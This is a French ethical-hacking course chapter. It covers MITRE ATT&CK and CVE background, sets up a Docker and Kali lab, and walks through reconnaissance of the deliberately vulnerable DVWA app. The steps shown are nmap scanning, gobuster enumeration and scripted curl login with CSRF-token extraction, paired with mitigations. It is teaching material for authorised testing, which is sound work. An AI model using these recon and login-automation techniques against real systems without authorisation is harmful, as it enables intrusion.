





# Chapitre 01 : Introduction au hacking éthique et aux vulnérabilités — Techniques de hacking et contre-mesures - Niveau 1

---

## Introduction à la cybersécurité

### Qu'est-ce que la cybersécurité ?

La **cybersécurité** est l'ensemble des pratiques, technologies et processus conçus pour protéger les systèmes, réseaux, programmes et données contre les attaques, les dommages ou les accès non autorisés. Son objectif fondamental repose sur le **triangle CIA** (Confidentialité, Intégrité, Disponibilité).

### Bref historique

| Période | Événement marquant |
|---------|-------------------|
| **1971** | Premier ver informatique : **Creeper** (Bob Thomas, BBN) — expérimental, il traversait ARPANET en affichant "I'm the creeper, catch me if you can!" |
| **1988** | **Morris Worm** — premier ver à se propager massivement (6000 machines infectées, 10% d'Internet à l'époque). Robert Morris Jr. condamné. |
| **1999** | **CVE** (Common Vulnerabilities and Exposures) créé par MITRE — standardisation des identifiants de vulnérabilités |
| **2000s** | Explosion des attaques web (XSS, SQLi). OWASP Top 10 publié en 2003. |
| **2010** | **Stuxnet** — première cyberarme d'État (États-Unis + Israël contre les centrifugeuses iraniennes) |
| **2013** | **Target** — vol de 40M de cartes bancaires via un compte tiers non sécurisé (climatisation) |
| **2017** | **WannaCry** — ransomware mondial via EternalBlue (CVE-2017-0144), 300 000 machines dans 150 pays |
| **2020+** | Généralisation du **Zero Trust**, explosion des ransomwares (Colonial Pipeline 2021), IA générative dans les attaques (phishing ultra-personnalisé, code malveillant automatisé) |

### Pourquoi ce cours ?

Le hacking éthique (ou pentest) consiste à **attaquer un système avec autorisation** pour en identifier les failles avant qu'un véritable attaquant ne les exploite. Ce cours vous donne les bases : outils, méthodologie, reporting.

Vous apprendrez à :
- Utiliser les outils du pentest (nmap, sqlmap, Metasploit, Hydra)
- Comprendre et exploiter les 4 vulnérabilités web les plus critiques
- Cartographier vos attaques avec le framework MITRE ATT&CK
- Documenter vos résultats dans un rapport professionnel

---

## Objectifs pédagogiques

- Mettre en place l'environnement de lab (Docker, Kali, outils)
- Comprendre le référentiel MITRE ATT&CK et naviguer dans sa matrice
- Distinguer les profils d'attaquants
- Cartographier les attaques (phishing, DDoS, SQLi, XSS) aux techniques ATT&CK
- Prendre en main nmap, Metasploit, Wireshark
- Exploiter les 4 failles web sur DVWA : Reflected XSS, Stored XSS, CSRF, SQLi, Command Injection

---

# Partie 1 — Mise en place de l'environnement (1h30)

## 1.1 Vérification des outils Kali

```bash
# Vérification des versions installées des outils essentiels du pentest
# which = localise le chemin d'un exécutable dans le PATH (permet de vérifier qu'un outil est bien installé)
python3 --version     # → Python 3.10+  (interpréteur requis par sqlmap, scripts d'exploit)
docker --version      # → Docker 24+  (moteur de conteneurisation pour les cibles du lab)
nmap --version        # → Nmap 7.94  (scanner réseau standard)
msfconsole --version  # → Metasploit 6.3  (framework d'exploitation)
sqlmap --version      # → sqlmap 1.7  (outil automatisé d'injection SQL)
which nc              # → /usr/bin/nc  (netcat : connexions TCP/UDP, reverse shells)
```

Si un outil manque :
```bash
# sudo = exécute la commande suivante avec les privilèges root (super-utilisateur)
# apt update = rafraîchit la liste des paquets disponibles ; apt install -y = installe les paquets sans demande de confirmation
sudo apt update && sudo apt install -y docker.io docker-compose-v2 git nmap metasploit-framework sqlmap netcat-openbsd curl
# usermod -aG = modifie le compte utilisateur pour l'ajouter (-a) au groupe (-G) docker
# Permet d'utiliser docker sans taper sudo à chaque commande
sudo usermod -aG docker $USER  # -aG = append to Group (préserve les groupes existants)
# Important : fermer ET rouvrir la session (logout/login) pour que le groupe soit pris en compte
# Un simple "su - $USER" ou une nouvelle fenêtre de terminal suffit, pas besoin de rebooter
```

## 1.2 Arborescence de travail

```bash
# git clone = télécharge une copie complète du dépôt Git distant dans le dossier courant
git clone https://github.com/yugmerabtene/techniques-de-hacking-niveau-1.git
cd techniques-de-hacking-niveau-1
```

Une fois le dépôt cloné, voici l'arborescence **réelle** :

```text
techniques-de-hacking-niveau-1/      # Dépôt du cours (RACINE)
├── labs_resolution/                 # 🔥 Labs RÉSOLUS (correction, référence)
│   ├── jour-01/                     #   Scripts XSS, SQLi, CMDi, hash cracking
│   ├── jour-02/                     #   Recon nmap, exploits vsftpd/Samba, MITM (incl. recon/)
│   ├── jour-03/                     #   BOF pwntools, WAF bypass, Trojan
│   ├── jour-04/                     #   Hardening + ELK SOC
│   └── jour-05/                     #   Forensique + generate_report.py
├── rendu_labs/                      # 📁 Votre dossier de rendu (à créer / compléter)
│   ├── jour-01/                     #   → Déposez vos travaux J1 ici
│   ├── jour-02/                     #   → Déposez vos travaux J2 ici
│   ├── jour-03/                     #   → Déposez vos travaux J3 ici
│   ├── jour-04/                     #   → Déposez vos travaux J4 ici
│   └── jour-05/                     #   → Déposez vos travaux J5 ici
├── env.sh                           # Variables centralisées (sourcer avant chaque lab)
├── docker-compose.yml               # 7 conteneurs cibles
├── docker/                          # Dockerfiles (buffovf, forensic, sqli-app, waf, secure-linux)
├── img/                             # Schémas et figures
├── JOUR-01*.md → JOUR-05*.md       # Supports de cours
├── PLAN_SCHEMAS.md
├── README.md
└── extra/                           # Projets complémentaires
    ├── HORS-SERIE-AGENTIC.md
    └── hors-serie/                  # Dockerfile + code source KillChainAgent
```

## 1.3 Lancement des conteneurs

```bash
# docker compose up = démarre tous les services définis dans docker-compose.yml
# -d (detached) = arrière-plan, --build = reconstruit les images Docker avant de lancer
# Sans argument : tous les conteneurs ; avec un nom : un seul service (ex: dvwa)
docker compose up -d --build
```



**Fig 1** — Topologie du lab : 7 conteneurs cibles exposés sur ports dédiés, orchestrés par Kali Linux hôte.

---

# Partie 2 — Introduction au hacking éthique (4h30)

Toute démarche de sécurité commence par la compréhension du paysage des menaces. Avant de lancer un scan ou d'exploiter une faille, il faut un **langage commun** pour décrire les comportements adverses. Ce langage, c'est **MITRE ATT&CK** — le standard adopté par les SOC, les CERT et les pentesters.

Ce chapitre couvre la matrice ATT&CK (14 tactiques, 200+ techniques), le mapping des attaques classiques vers leurs IDs, et l'exploitation des 4 vulnérabilités web les plus répandues.

> **Sources :** [MITRE ATT&CK Framework](https://attack.mitre.org/)

---

## 2.1 MITRE ATT&CK — La matrice des TTPs

**Tactique** = l'objectif (pourquoi). **Technique** = la méthode (comment). **Procédure** = l'implémentation spécifique d'un groupe.

Chaque **tactique** (colonne) regroupe des **techniques** (lignes) qui réalisent cet objectif. Une **sous-technique** (ex: T1059.004) précise une variante d'exécution. Les **mitigations** (MXXXX) sont les contrôles défensifs liés à chaque technique. Navigation : [attack.mitre.org](https://attack.mitre.org/) → Enterprise → cliquer sur une tactique.


**Fig 2** — Chaîne complète MITRE ATT&CK v15 : 14 tactiques de la Reconnaissance à l'Impact.

### Correspondance attaques → techniques ATT&CK


**Fig 3** — Mapping des attaques classiques (Phishing, DDoS, SQLi, XSS, CSRF) vers leurs techniques et tactiques MITRE ATT&CK.

---

## 2.2 CVE — Common Vulnerabilities and Exposures

### Qu'est-ce qu'une CVE ?

Une **CVE** (Common Vulnerabilities and Exposures) est un identifiant unique et standardisé qui référence une vulnérabilité de sécurité connue dans un logiciel ou un matériel. Créé par la **MITRE Corporation** en **1999**, le système CVE est aujourd'hui le référencement mondial des failles de cybersécurité.

> En 1999, seules **541 CVE** avaient été publiées. En 2025, on dépasse les **240 000 CVE** — une croissance qui illustre l'explosion de la surface d'attaque numérique.

### Format d'une CVE

```
CVE-YYYY-NNNNN
```

| Partie | Signification | Exemple |
|--------|--------------|---------|
| `CVE` | Préfixe fixe (Common Vulnerabilities and Exposures) | CVE |
| `YYYY` | Année de découverte ou de publication | 2017 |
| `NNNNN` | Numéro séquentiel (4+ chiffres, sans zéro devant) | 0144 |

Exemples :
- **CVE-2017-0144** → EternalBlue (buffer overflow SMB, utilisé par WannaCry)
- **CVE-2011-2523** → vsftpd 2.3.4 (backdoor, vu au J2)
- **CVE-2007-2447** → Samba 3.0.20 (usermap script, vu au J2)
- **CVE-2021-44228** → Log4Shell (RCE dans Log4j, score CVSS 10.0)

### Comment une CVE est-elle créée ?



**Fig 4** — Cycle de vie d'une CVE : découverte → signalement → assignation → publication → correctif.

Le réseau des **CNA** (CVE Numbering Authority) est organisé par MITRE :
- **Root CNA** : MITRE elle-même (gère le programme)
- **Éditeurs majeurs** : Microsoft, Oracle, Google, Apache, Red Hat, etc.
- **Chercheurs indépendants** : peuvent passer par un CNA ou un éditeur pour obtenir un ID

> Sans CVE, une vulnérabilité n'a pas d'identité officielle. Impossible de la tracer, de prioriser son correctif, ou de la référencer dans les outils de sécurité (Nessus, OpenVAS, Wazuh).

### Bases de données CVE

| Base | Opérateur | Particularité |
|------|-----------|---------------|
| [cve.org](https://www.cve.org/) | MITRE | Référence officielle |
| [NVD](https://nvd.nist.gov/) | NIST | Ajoute le score **CVSS** + la sévérité |
| [Exploit-DB](https://www.exploit-db.com/) | OffSec | Code d'exploitation fonctionnel |
| [VulDB](https://vuldb.com/) | VulDB | Score propriétaire + trending |
| [CVE Details](https://www.cvedetails.com/) | Independants | Statistiques par éditeur/produit |

### Lien CVE → MITRE ATT&CK

La **CVE** identifie *la vulnérabilité technique* (le trou). La **technique ATT&CK** décrit *la méthode pour l'exploiter* (la manœuvre). Les deux sont inséparables :

| CVE | Vulnérabilité | Technique ATT&CK | Lab |
|-----|---------------|------------------|-----|
| CVE-2011-2523 | vsftpd 2.3.4 — backdoor (supply chain) | [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing App | J2 LAB-2 |
| CVE-2007-2447 | Samba 3.0.20 — command injection (usermap) | [T1210](https://attack.mitre.org/techniques/T1210/) Exploit Remote Services | J2 LAB-3 |
| CVE-2017-0144 | EternalBlue — buffer overflow SMB | [T1210](https://attack.mitre.org/techniques/T1210/) Exploit Remote Services | J2 LAB-2 |
| *(aucune)* | XSS, SQLi, CSRF, CMDi (vulnérabilités génériques) | [T1189](https://attack.mitre.org/techniques/T1189/) Drive-by Compromise, [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing App, [T1203](https://attack.mitre.org/techniques/T1203/) Exploitation for Client Execution, [T1059.004](https://attack.mitre.org/techniques/T1059/004/) Unix Shell | J1 Labs LAB-3 à LAB-6 |

> **Note :** Les failles web (XSS, SQLi) n'ont pas de CVE unique car elles dépendent de l'implémentation. En revanche, les vulnérabilités logicielles (vsftpd, Samba) ont une CVE bien spécifique qui permet de les tracer et de les corriger via un système de patch management ([M1051](https://attack.mitre.org/mitigations/M1051/) Update Software).

---

## 2.3 Profils d'attaquants



**Fig 5** — Taxonomie des profils d'attaquants : White Hat, Black Hat, Grey Hat, Hacktiviste, APT.

---

## LAB-1 — Conception : Plan d'attaque MITRE ATT&CK

### Fiche

| Durée | Conteneur | Dossier | Outils | ATT&CK |
|---|---|---|---|---|
| 30 min | Aucun (bac à sable) | `rendu_labs/jour-01/` | [ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) | [TA0043](https://attack.mitre.org/tactics/TA0043/) Reconnaissance → [TA0005](https://attack.mitre.org/tactics/TA0005/) Stealth |

### Contexte métier

Avant de lancer le moindre outil, un pentest professionnel commence par un **plan d'attaque**. Le client veut savoir : quelles techniques allez-vous utiliser ? dans quel ordre ? avec quel risque ? La matrice MITRE ATT&CK est le langage commun pour répondre à ces trois questions.

Un bon plan = une feuille de route qui couvre la **reconnaissance**, l'**exploitation**, la **post-exploitation** et la **défense**. C'est ce cadre que vous allez construire dans ce lab.

### Étape 1 — Cartographier les cibles — [T1046](https://attack.mitre.org/techniques/T1046/) Network Service Scanning

```bash
mkdir -p rendu_labs/jour-01 && cd rendu_labs/jour-01
# Lister les conteneurs cibles disponibles
docker compose ps --services
# → dvwa, sqli-app, vsftpd, buffovf, waf, secure-linux, forensic-victim
```

Notez les services exposés par chaque conteneur (ports, protocoles). Vous utiliserez cette information pour choisir vos techniques d'attaque.

### Étape 2 — Créer une couche ATT&CK complète — [TA0043](https://attack.mitre.org/tactics/TA0043/) Reconnaissance

Ouvrez [ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) → **New Layer** → **Enterprise v15**.

Créez une couche nommée `Plan JOUR-01` qui couvre les techniques suivantes, organisées par tactique :

| Tactique | Technique | Outil prévu | Lab cible |
|----------|-----------|-------------|-----------|
| [TA0043](https://attack.mitre.org/tactics/TA0043/) Reconnaissance | [T1046](https://attack.mitre.org/techniques/T1046/) Network Service Scanning | nmap | LAB-2 |
| [TA0043](https://attack.mitre.org/tactics/TA0043/) Reconnaissance | [T1040](https://attack.mitre.org/techniques/T1040/) Network Sniffing | Wireshark / tcpdump | LAB-3 |
| [TA0001](https://attack.mitre.org/tactics/TA0001/) Initial Access | [T1189](https://attack.mitre.org/techniques/T1189/) Drive-by Compromise (XSS) | navigateur, curl | LAB-3 |
| [TA0001](https://attack.mitre.org/tactics/TA0001/) Initial Access | [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing Application (SQLi) | sqlmap | LAB-4, LAB-6 |
| [TA0001](https://attack.mitre.org/tactics/TA0001/) Initial Access | [T1203](https://attack.mitre.org/techniques/T1203/) Exploitation for Client Execution (CSRF) | curl, HTML | LAB-3 |
| [TA0002](https://attack.mitre.org/tactics/TA0002/) Execution | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) Unix Shell (CMDi) | netcat, msfvenom | LAB-5 |
| [TA0006](https://attack.mitre.org/tactics/TA0006/) Credential Access | [T1110](https://attack.mitre.org/techniques/T1110/) Brute Force | Hydra | LAB-7 |
| [TA0006](https://attack.mitre.org/tactics/TA0006/) Credential Access | [T1110.001](https://attack.mitre.org/techniques/T1110/001/) Password Cracking | John the Ripper | LAB-6 |

**Consigne :** Ajoutez chaque technique dans le Navigator, coloriez en **rouge** les techniques que vous allez exécuter aujourd'hui, en **orange** celles qui dépendent d'une autre, et exportez en JSON → `rendu_labs/jour-01/plan-attaque-j1.json`.

### Étape 3 — Ordonnancer l'attaque — [TA0001](https://attack.mitre.org/tactics/TA0001/) Initial Access

Pour chaque technique du plan, définissez :
1. **Dépendance** : quelle technique doit réussir avant ?
2. **Contre-mesure possible** : qu'est-ce qui pourrait nous bloquer ?
3. **Objectif** : quel résultat attendu (shell, credentials, data) ?

| Ordre | Technique | Dépend de | Risque | Objectif |
|-------|-----------|-----------|--------|----------|
| 1 | [T1046](https://attack.mitre.org/techniques/T1046/) — Scan | — | Firewall bloque le port | Ports ouverts identifiés |
| 2 | [T1190](https://attack.mitre.org/techniques/T1190/) — SQLi | T1046 | WAF détecte union select | Dump de la base users |
| 3 | [T1189](https://attack.mitre.org/techniques/T1189/) — XSS | T1046 | CSP bloque le script | Vol de cookie admin |
| 4 | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) — CMDi | T1046 | disable_functions coupe nc | Reverse shell |
| 5 | [T1110](https://attack.mitre.org/techniques/T1110/) — Brute Force | T1046 | Account lockout après 3 fails | Mot de passe admin |

Documentez ce tableau dans `rendu_labs/jour-01/plan-attaque-j1.md`.

### Étape 4 — Lancer l'infrastructure — [T1046](https://attack.mitre.org/techniques/T1046/) Network Service Scanning

```bash
# Démarrer tous les conteneurs du JOUR-01
cd /chemin/vers/techniques-de-hacking-niveau-1
source env.sh
docker compose up -d --build dvwa sqli-app
# → Container dvwa-target started, Container sqli-app-target started
```

> 💡 **Pourquoi `source` et pas `bash env.sh` ?** `source` exécute le script **dans le terminal courant** — les variables (DVWA_PORT=8088, LHOST...) restent accessibles pour les commandes suivantes. `bash env.sh` lancerait un sous-shell : les variables existeraient le temps du script puis disparaîtraient. Si vous ouvrez un nouveau terminal, re-sourcez `env.sh`.

Vérifiez que les cibles répondent :

```bash
curl -s -o /dev/null -w "%{http_code}" http://localhost:8088/login.php
# → 200  (DVWA est prêt)
curl -s -o /dev/null -w "%{http_code}" http://localhost:8083
# → 200  (sqli-app est prêt)
```

### Checkpoints

- [ ] Couche ATT&CK Navigator créée et exportée en JSON (5+ techniques)
- [ ] Tableau d'ordonnancement rédigé (ordre, dépendance, risque, objectif)
- [ ] Conteneurs dvwa et sqli-app démarrés, réponses HTTP 200
- [ ] Couche défense `defense-j1.json` créée avec les 5 mitigations
- [ ] Chaque technique rouge liée à sa mitigation verte dans Navigator
- [ ] Plan déposé dans `rendu_labs/jour-01/`

### 🔒 Contre-mesure — Couche défense ATT&CK

Un bon plan d'attaque sert aussi à la **défense** : chaque technique a sa mitigation. Vous allez maintenant créer une seconde couche ATT&CK Navigator dédiée aux contre-mesures.

#### Étape 5 — Créer la couche défense — [M1031](https://attack.mitre.org/mitigations/M1031/) Network Intrusion Prevention

```bash
cd rendu_labs/jour-01
# Ouvrir ATT&CK Navigator dans le navigateur
firefox https://mitre-attack.github.io/attack-navigator/
```

1. **New Layer** → **Enterprise v15** → nommez-la `Defense JOUR-01`
2. **Mode MITIGATIONS** : dans le menu déroulant en haut à gauche, passez de "Techniques" à **"Mitigations"**
3. Ajoutez les 5 mitigations correspondant à chaque technique de votre plan :

| Technique | Mitigation | Code couleur |
|-----------|------------|-------------|
| T1046 — Scan | [M1031](https://attack.mitre.org/mitigations/M1031/) Network Intrusion Prevention | 🟢 Vert (Snort/Suricata bloque les scans) |
| T1190 — SQLi | [M1041](https://attack.mitre.org/mitigations/M1041/) WAF + Requêtes préparées | 🟢 Vert (ModSecurity bloque les injections) |
| T1189 — XSS | [M1013](https://attack.mitre.org/mitigations/M1013/) Application Hardening | 🟢 Vert (CSP, htmlspecialchars) |
| T1059.004 — CMDi | [M1018](https://attack.mitre.org/mitigations/M1018/) User Account Control | 🟢 Vert (disable_functions coupe nc) |
| T1110 — Brute Force | [M1036](https://attack.mitre.org/mitigations/M1036/) Account Lockout | 🟢 Vert (3 tentatives → blocage 15 min) |

#### Étape 6 — Associer attaque → défense — [M1031](https://attack.mitre.org/mitigations/M1031/) Network Intrusion Prevention

Dans la couche `plan-attaque-j1.json` (chargée dans Navigator) :
1. Sélectionnez chaque technique rouge
2. **Associez** sa mitigation : clic droit → **Link to Mitigation** → cherchez le nom de la mitigation
3. Colorez la technique en **orange** si la mitigation est partielle, **rouge** si aucune mitigation n'est appliquée

```bash
# Exporter la couche défense
# Dans Navigator : Download as JSON → defense-j1.json
# Vérifier le fichier
ls -la defense-j1.json
# → defense-j1.json  (fichier JSON valide, ~5-10 KB)
```

#### Étape 7 — Visualiser le plan complet — [M1031](https://attack.mitre.org/mitigations/M1031/) Network Intrusion Prevention

Le résultat attendu dans ATT&CK Navigator doit montrer :



**Principe :** Une technique attaquante (rouge) doit toujours avoir une mitigation associée (verte). Si une technique rouge n'a pas de mitigation verte → c'est un **risque accepté** ou une **découverte** à signaler dans le rapport.

```bash
# Lister les 2 fichiers produits
ls -la rendu_labs/jour-01/*.json
# → plan-attaque-j1.json   (couche attaque, techniques rouges)
# → defense-j1.json        (couche défense, mitigations vertes)
```

---

## LAB-2 — Scan et découverte de DVWA

### Fiche

| Durée | Conteneur | Dossier | Outils | ATT&CK |
|---|---|---|---|---|
| 30 min | dvwa (port 8088) | `rendu_labs/jour-01/` | nmap, gobuster, curl | [TA0043](https://attack.mitre.org/tactics/TA0043/) Recon — [T1046](https://attack.mitre.org/techniques/T1046/) Network Scan |

**DVWA** (Damn Vulnerable Web Application) est une application web PHP/MySQL volontairement vulnérable, conçue pour apprendre les tests de sécurité dans un environnement légal. Elle expose XSS, SQLi, CSRF, CMDi et bien d'autres failles — c'est notre cible pour les labs LAB-2 à LAB-5 et LAB-7.

### Contexte métier

Avant tout pentest, on scanne la cible pour cartographier sa surface d'attaque. Un scan nmap + une énumération web (gobuster) sont systématiquement demandés par le client dans le rapport.

### Étape 1 — Scan nmap — [T1046](https://attack.mitre.org/techniques/T1046/) Network Service Scanning

**Objectif :** Découvrir les services ouverts sur la cible DVWA et identifier la version du serveur web.

**Où ?** Terminal 1 — `cd rendu_labs/jour-01`

**Actions :**
1. Créer le dossier de rendu et s'y positionner
2. Lancer un scan nmap sur le port 8088 avec détection de version

**Commande :**
```bash
mkdir -p rendu_labs/jour-01 && cd rendu_labs/jour-01
nmap -sV -p 8088 localhost | tee nmap_dvwa.txt
# → PORT     STATE SERVICE VERSION
# → 8088/tcp open  http    Apache httpd 2.4.X
```

Le flag `-sV` interroge la bannière du service pour obtenir la version exacte. `tee` sauvegarde la sortie dans `nmap_dvwa.txt` pour le rapport.

> 💡 **Bon à savoir :** Les versions exactes (ex. `Apache httpd 2.4.25`) diffèrent selon l'image Docker utilisée. L'essentiel est de confirmer le service HTTP Apache sur le port 8088.

**Explication :** Le scan de ports est la première étape de tout pentest ([TA0043](https://attack.mitre.org/tactics/TA0043/) Reconnaissance). Connaître la version d'Apache permet de chercher des CVE associées. Sans cette information, l'attaquant travaille en aveugle.

---

### Étape 2 — Énumération gobuster — [T1046](https://attack.mitre.org/techniques/T1046/) Network Service Scanning

**Objectif :** Trouver les répertoires et fichiers cachés de l'application DVWA.

**Où ?** Terminal 1 — `cd rendu_labs/jour-01`

**Actions :**
1. Lancer gobuster en mode scan de répertoires
2. Analyser les résultats pour identifier les pages sensibles

**Commande :**
```bash
cd rendu_labs/jour-01
gobuster dir -u http://localhost:8088 \
  -w /usr/share/wordlists/dirb/common.txt -q | tee gobuster_dvwa.txt
# → /login.php (Status: 200)
# → /vulnerabilities (Status: 301)
# → /config (Status: 301)
# → /setup.php (Status: 200)
```
Le flag `-u` définit l'URL cible, `-w` la wordlist de noms à tester (ici `common.txt`), `-q` masque la bannière. `tee` copie la sortie dans un fichier.

> 💡 **Variante selon version DVWA :** Sur DVWA v1.10+, `index.php` redirige vers `login.php` (HTTP 302). Les résultats peuvent différer légèrement — `/config/`, `/docs/` et `phpinfo.php` sont des découvertes valides supplémentaires. Une wordlist plus riche (ex. `directory-list-2.3-medium.txt` de SecLists) permet de découvrir davantage de pages.

**Explication :** gobuster force-brute les noms de dossiers pour cartographier la surface d'attaque. Les pages `login.php`, `config/` et `setup.php` sont des cibles privilégiées. La découverte de `config/` est un résultat critique — ce dossier peut contenir des mots de passe en clair.

---

### Étape 3 — Connexion DVWA — [T1078](https://attack.mitre.org/techniques/T1078/) Valid Accounts

**Objectif :** S'authentifier sur DVWA et configurer le niveau de sécurité sur "low" pour désactiver les protections.

**Où ?** Terminal 1

**Actions :**
1. Envoyer une requête POST avec les identifiants `admin:password` pour obtenir un cookie de session
2. Utiliser ce cookie pour définir le niveau de sécurité sur `low`

> ⚠️ **Spécificité DVWA v1.10+ :** Le formulaire de login inclut un `user_token` (CSRF) invisible. Une simple requête POST sans ce token échoue silencieusement. Il faut d'abord extraire le token, puis l'inclure dans la requête.
>
> 💡 **C'est quoi un token CSRF ?** Cross-Site Request Forgery (CSRF) : un attaquant pourrait héberger un formulaire chez lui qui POSTe vers DVWA à votre insu. Le `user_token` est une clé secrète générée par le serveur, propre à votre session et qui change à chaque requête. Sans elle, le serveur rejette la requête. C'est pour ça qu'on doit l'extraire (via `grep`) avant chaque POST — si on réutilise un vieux token, la requête échoue.

**Commande :**
```bash
# Étape 1 : Extraire le token CSRF et récupérer un cookie de session
TOKEN=$(curl -s -c /tmp/dvwa_cookie.txt \
  "http://localhost:8088/login.php" \
  | grep -oP "user_token' value='\K[a-f0-9]+")

# Étape 2 : Envoyer le login avec le token (POST vers login.php — si on POSTait vers index.php, DVWA rejetterait la requête)
curl -s -D- -b /tmp/dvwa_cookie.txt -c /tmp/dvwa_cookie.txt \
  -d "username=admin&password=password&user_token=$TOKEN&Login=Login" \
  "http://localhost:8088/login.php" | grep "Location:"
# → Location: index.php

# Étape 3 : Extraire le nouveau token et passer security=low
TOKEN=$(curl -s -b /tmp/dvwa_cookie.txt \
  "http://localhost:8088/security.php" \
  | grep -oP "user_token' value='\K[a-f0-9]+")
curl -s -b /tmp/dvwa_cookie.txt -c /tmp/dvwa_cookie.txt \
  -d "security=low&seclev_submit=Submit&user_token=$TOKEN" \
  "http://localhost:8088/security.php"
# → (pas de sortie visible — le cookie est mis à jour avec security=low)
```
La première commande doit afficher `Welcome` (authentification réussie). Le flag `-c` sauvegarde le cookie reçu dans `/tmp/dvwa_cookie.txt`. L'extraction du `user_token` via `grep -oP` est une technique réutilisable pour tout formulaire protégé par CSRF.

**Explication :** Sans cookie de session, DVWA nous traite comme un visiteur anonyme. Le fichier `/tmp/dvwa_cookie.txt` contient maintenant `PHPSESSID` + `security=low`. Les labs suivants (XSS, SQLi, CMDi) nécessitent ce niveau low pour que les injections fonctionnent — sans quoi les `mysql_real_escape_string()` et `htmlspecialchars()` de DVWA bloqueraient nos attaques.

